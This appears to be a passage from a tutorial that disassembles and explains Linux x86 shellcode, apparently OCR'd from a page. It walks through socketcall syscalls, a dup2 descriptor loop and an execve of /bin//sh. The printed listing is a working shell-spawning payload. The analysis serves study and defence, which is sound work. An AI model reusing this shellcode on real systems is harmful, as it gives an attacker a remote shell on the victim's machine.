 ```asm
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```

Let's examine it syscall by syscall.

### First syscall

The first code is the following: EBX is set to zero, then EAX is set to zero too because of output of mul instruction. 

Zero is stored into the stack, than EBX is incremented and the value 1 is
stored into the stack and right after that the value 2 as well.

```asm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
```

Stack is now something like this:

	      |-----|
ESP -->	|  2  |
	      |  1  |
	      |  0  |
	      |-----|

ECX is pointing to this data structure and AL is filled with 0x66 that is 102 in decimal.
The 102 value is the code for socketcall() systemcall.
